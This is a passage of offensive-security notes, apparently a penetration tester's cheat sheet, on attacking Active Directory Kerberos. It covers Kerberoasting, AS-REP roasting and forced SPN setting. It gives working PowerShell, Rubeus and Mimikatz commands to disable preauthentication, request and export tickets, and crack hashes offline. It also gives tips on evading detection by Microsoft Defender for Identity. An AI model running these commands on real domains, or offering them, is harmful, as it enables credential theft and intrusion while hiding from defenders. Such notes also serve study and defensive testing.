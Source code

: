 - you can also use PowerView’s `Request-SPNTicket` and crack with John or Hashcat
- when requesting a TGS, you will be detected if forcefully downgrading the encryption to RC4-HMAC
    - more opsec safe to only request RC4-HMAC encryption for services that only support that encryption, which can be done with `Rubeus.exe kerberoast /stats /rc4opsec`
    - note that even if the  user in `Protected Users` group, you can still request RC4 encryption in Kerberos
- DO NOT request several TGS tickets in quick succession
    - detected by MDI as an anomaly
    - instead, perform `Rubeus.exe kerberoast /user:0xd4y /simple`

### AS-REP Roast

- if Kerberos preauth is not required for a user (required by default), you can get a user’s AS-REP and try to crack it
    - can be found with `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`


- when preauth is not required for the user, you can request authentication data for that user
    - KDC then responds in step 2 with a TGT encrypted with the user’s NTLM hash
        - this can then be saved to disk and cracked offline
- if you have `GenericAll` or `GenericWrite` control over a group or user in a group, you can disable preauth for a user
    - of course you could reset the user’s password instead, but this is less opsec friendly
    - you could also just set an SPN for the user instead and then kerberoast it

**********************Exploitation**********************

```powershell
# Find permissions identity has for users in domain
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<GROUP_NAME_OR_USER_NAME>"}

# Disable PreAuth for user 0xd4y
Set-DomainObject -Identity 0xd4y -XOR @{useraccountcontrol=4194304}

# Get TGT for user 0xd4y
Get-ASRepHash -UserName 0xd4y 
```

- the `Set-DomainObject` command may result in an `Exception calling “GetNames”` error, but it may have still worked
    - this can be verified with `Get-DomainUser -Preauthnotrequired`
    - it may be possible to resolve this issue by starting a new PowerShell session

### Set-SPN

- with `GenericAll` or `GenericWrite` permissions for a user, you can set the user’s SPN to anything and request a TGS for it (even if there is no service running for that SPN)
    - the TGS can then be saved to disk and cracked
    - SPN must be unique in the forest

****************Exploitation****************

```powershell
# Set unique SPN for user 0xd4y
Set-ADUser -Identity 0xd4y -ServicePrincipalNames @{Add='doesnot/matter'}

# Request TGS
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "doesnot/matter"

# Save TGS to disk:
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
